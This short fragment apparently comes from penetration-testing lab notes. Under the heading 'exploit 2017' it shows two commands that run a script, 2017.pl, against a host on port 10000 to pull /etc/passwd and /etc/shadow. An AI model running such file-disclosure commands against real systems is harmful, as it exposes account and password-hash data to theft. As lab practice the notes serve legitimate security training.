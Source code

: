 #### exploit 2017
```
./2017.pl 10.11.1.141 10000 /etc/passwd 0 > passwd
```
```
./2017.pl 10.11.1.141 10000 /etc/shadow 0 > shadow
```
